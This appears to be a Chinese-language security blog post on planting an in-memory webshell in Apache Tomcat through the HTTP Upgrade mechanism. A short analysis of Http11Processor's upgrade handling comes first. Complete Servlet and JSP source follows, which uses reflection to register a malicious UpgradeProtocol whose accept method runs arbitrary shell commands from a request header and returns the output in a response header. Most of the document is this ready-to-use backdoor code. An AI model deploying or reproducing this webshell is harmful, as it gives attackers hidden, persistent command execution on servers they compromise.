









# Java Security Of Tomcat Upgrade

## Preparation

​	中间件型内存马`Upgrade`依旧还是基于`Connector`的内存马注入，在中间件型内存马`Executor`中，利用的是`ProtocolHandler`中的`Endpoint`里的`Executor`组件，而`Upgrade`利用的是`ProtocolHandler`的另一个组成部分，即`Processor`里的`Upgrade`组件。



## Process Analysis

​	`Processor`是一个接口，针对的不同协议，有着不同的具体实现类，由于采用的是`HTTP`协议，因此来看看`org.apache.coyote.http11.Http11Processor`。



​	`Http11Processor`在处理`Upgrade`时，会执行以下的步骤：

- `Http11Processor#service`方法会检查请求头中的`Connection`字段的值是否包含`upgrade`；
- 若请求头中的`Connection`字段的值包含`upgrade`，则会调用`request#getHeader`方法来获取请求头`Upgrade`，并根据获取到的结果来选择对应的`Upgrade`对象；
- 当`upgradeProtocol`不为空时，调用该对象的`accept`方法。

​	因此，可以尝试在`accept`方法中插入恶意代码来达到命令执行的目的。



​	接下来看看`httpUpgradeProtocols`是怎么获取的，在`Http11Processor`初始化阶段，会对`httpUpgradeProtocols`赋值。



​	而在`org.apache.coyote.http11.AbstractHttp11Protocol#createProcessor`方法中会实例化一个`Http11Processor`对象，将`httpUpgradeProtocols`传入。



​	继续跟进看看`org.apache.coyote.http11.AbstractHttp11Protocol`中在何处对`httpUpgradeProtocols`进行了赋值，跟进`org.apache.coyote.http11.AbstractHttp11Protocol#configureUpgradeProtocol`方法，这里将`httpUpgradeName`和`upgradeProtocol`添加到`httpUpgradeProtocols`的`HashMap`中。



​	因此，通过反射调用将`httpUpgradeProtocols`添加一项，即可实现`Upgrade`内存马。通过下断点，找到一处`httpUpgradeProtocols`，实现路径`request`->`request`->`connector`->`protocolHandler`->`httpUpgradeProtocols`。



## Achievement

### Idea

​	动态注册`Upgrade`内存马的具体思路如下:

- 获取`httpUpgradeProtocols`属性；
- 创建一个恶意的`upgradeProtocol`；
- 将恶意的`upgradeProtocol`插入到`httpUpgradeProtocols`中。

### Dynamic Registration

#### Servlet

```java
package servlet;

import org.apache.catalina.connector.Connector;
import org.apache.coyote.*;
import org.apache.coyote.http11.Http11NioProtocol;
import org.apache.coyote.http11.upgrade.InternalHttpUpgradeHandler;
import org.apache.tomcat.util.net.SocketWrapperBase;

import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.nio.charset.StandardCharsets;
import java.util.HashMap;
import java.util.Scanner;

@WebServlet(name = "UpgradeMemoryShellServlet", value = "/UpgradeMemoryShellServlet")
public class UpgradeMemoryShellServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        super.doGet(request, response);
    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) {
        try {
            Object request1 = getField(request, "request");
            Connector connector = (Connector) getField(request1, "connector");
            Http11NioProtocol protocolHandler = (Http11NioProtocol) getField(connector, "protocolHandler");
            HashMap httpUpgradeProtocols = (HashMap) getField(protocolHandler, "httpUpgradeProtocols");
            httpUpgradeProtocols.put("H3rmesk1t", new EvilUpgrade());
            response.getWriter().println("Upgrade Inject Successfully...");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    class EvilUpgrade implements UpgradeProtocol {
        @Override
        public String getHttpUpgradeName(boolean isSecure) {
            return null;
        }

        @Override
        public byte[] getAlpnIdentifier() {
            return new byte[0];
        }

        @Override
        public String getAlpnName() {
            return null;
        }

        @Override
        public Processor getProcessor(SocketWrapperBase<?> socketWrapper, Adapter adapter) {
            return null;
        }

        @Override
        public InternalHttpUpgradeHandler getInternalUpgradeHandler(Adapter adapter, Request request) {
            return null;
        }

        @Override
        public boolean accept(Request request) {
            String cmd = request.getHeader("set-reference");
            try {
                if (cmd != null) {
                    boolean isLinux = true;
                    String osType = System.getProperty("os.name");
                    if (osType != null && osType.toLowerCase().contains("win")) {
                        isLinux = false;
                    }

                    String[] commands = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                    InputStream inputStream = Runtime.getRuntime().exec(commands).getInputStream();
                    Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                    String output = scanner.hasNext() ? scanner.next() : "";

                    Response response = (Response) getField(request, "response");
                    response.addHeader("set-message", new String(output.getBytes(), StandardCharsets.UTF_8));
                }
            } catch (Exception e) {
                e.printStackTrace();
            }
            return false;
        }
    }

    public Object getField(Object obj, String field) {
        Class clazz = obj.getClass();
        while (clazz != Object.class) {
            try {
                Field declaredField = clazz.getDeclaredField(field);
                declaredField.setAccessible(true);
                return declaredField.get(obj);
            } catch (Exception e) {
                clazz = clazz.getSuperclass();
            }
        }
        return null;
    }
}
```



### JSP

```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.nio.charset.StandardCharsets" %>
<%@ page import="org.apache.catalina.connector.Connector" %>
<%@ page import="org.apache.coyote.http11.Http11NioProtocol" %>
<%@ page import="java.util.HashMap" %>
<%@ page import="org.apache.tomcat.util.net.SocketWrapperBase" %>
<%@ page import="org.apache.coyote.*" %>
<%@ page import="org.apache.coyote.http11.upgrade.InternalHttpUpgradeHandler" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%!
  class EvilUpgrade implements UpgradeProtocol {
    @Override
    public String getHttpUpgradeName(boolean isSecure) {
      return null;
    }

    @Override
    public byte[] getAlpnIdentifier() {
      return new byte[0];
    }

    @Override
    public String getAlpnName() {
      return null;
    }

    @Override
    public Processor getProcessor(SocketWrapperBase<?> socketWrapper, Adapter adapter) {
      return null;
    }

    @Override
    public InternalHttpUpgradeHandler getInternalUpgradeHandler(Adapter adapter, Request request) {
      return null;
    }

    @Override
    public boolean accept(Request request) {
      String cmd = request.getHeader("set-reference");
      try {
        if (cmd != null) {
          boolean isLinux = true;
          String osType = System.getProperty("os.name");
          if (osType != null && osType.toLowerCase().contains("win")) {
            isLinux = false;
          }

          String[] commands = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
          InputStream inputStream = Runtime.getRuntime().exec(commands).getInputStream();
          Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
          String output = scanner.hasNext() ? scanner.next() : "";

          Response response = (Response) getField(request, "response");
          response.addHeader("set-message", new String(output.getBytes(), StandardCharsets.UTF_8));
        }
      } catch (Exception e) {
        e.printStackTrace();
      }
      return false;
    }
  }

  public Object getField(Object obj, String field) {
    Class clazz = obj.getClass();
    while (clazz != Object.class) {
      try {
        Field declaredField = clazz.getDeclaredField(field);
        declaredField.setAccessible(true);
        return declaredField.get(obj);
      } catch (Exception e) {
        clazz = clazz.getSuperclass();
      }
    }
    return null;
  }
%>

<%
  Object request1 = getField(request, "request");
  Connector connector = (Connector) getField(request1, "connector");
  Http11NioProtocol protocolHandler = (Http11NioProtocol) getField(connector, "protocolHandler");
  HashMap httpUpgradeProtocols = (HashMap) getField(protocolHandler, "httpUpgradeProtocols");
  httpUpgradeProtocols.put("H3rmesk1t", new EvilUpgrade());
  response.getWriter().println("Upgrade Inject Successfully...");
%>
```


